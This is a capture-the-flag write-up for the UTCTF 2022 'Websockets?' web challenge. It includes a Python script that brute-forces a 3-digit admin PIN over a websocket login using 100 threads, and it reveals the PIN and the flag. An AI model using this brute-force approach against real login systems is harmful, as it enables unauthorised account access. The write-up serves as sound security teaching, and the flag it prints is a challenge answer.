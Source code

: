 ```yaml
---
title: 'UTCTF 2022 | Websockets?'
date: "2022-03-15T00:00:00Z"
tags: [websocket,authentication,bruteforcing]
cover:
    image: "/assets/CTFs/UTCTF2022/Websockets/challenge_info.png"
points: 335
solves: 173
---
```


**Websockets?** was a challenge in the web category for UTCTF 2022, in the end it has {{ page.solves }} Solves and it was worth {{ page.points }} Points. It was relatively easy.

We find this website without much information or input, checking its source we find a new page `/internal/login` and a username `admin`.
Going to this we now see a login, it requires a username and password. Lets open its source and see what we can find. There is a comment it says the following

```html
<!-- what is this garbage, you ask? Well, most of our pins are now 16 digits, but we still have some old 3-digit pins left because tom is a moron and can't remember jack -->
```

So the password will be 3 diget's long? So it will have a range from `000` to `999`.

There also is a JavaScript file, opening it shows us something interesting. The login uses websockets to verify the password, we can easily bruteforce it.
Lets write a small script using python.

```python
#!/usr/bin/env python3

import asyncio
import websockets
from concurrent.futures import ThreadPoolExecutor

URL = 'ws://web1.utctf.live:8651/internal/ws'
PINLENGTH = 3
USERNAME = 'admin'

async def tryLoginWith(pin):
    async with websockets.connect(URL) as websocket:
        begin = await websocket.recv()
        if begin == 'begin':
            await websocket.send(f'begin')
            await websocket.send(f'user {USERNAME}')
            await websocket.send(f'pass {pin}')

            data = await websocket.recv()
            if 'session' in data:
                print(f'[<<<] Data: {data} | Pincode: {pin}')
            else:
                print(f'[-] Wrong Pincode: {pin}')

def send(args):
    asyncio.run(tryLoginWith(str(args).zfill(PINLENGTH)))

args = [ x for x in range(1000) ]
with ThreadPoolExecutor(max_workers=100) as pool:
    pool.map(send,args)

```
^ A download for this script can be found [here](/assets/CTFs/UTCTF2022/Websockets/solve.py)


This code uses multithreading to get the correct pincode as quickly as possible. It also makes sure that the pincode is padded with zero's in front. Running this results in the following output.

![](/assets/CTFs/UTCTF2022/Websockets/pincode_done.png)

The pincode it found is `907`.
Lets login with this acquired pincode, and we got the flag! **utflag{w3bsock3ts}**
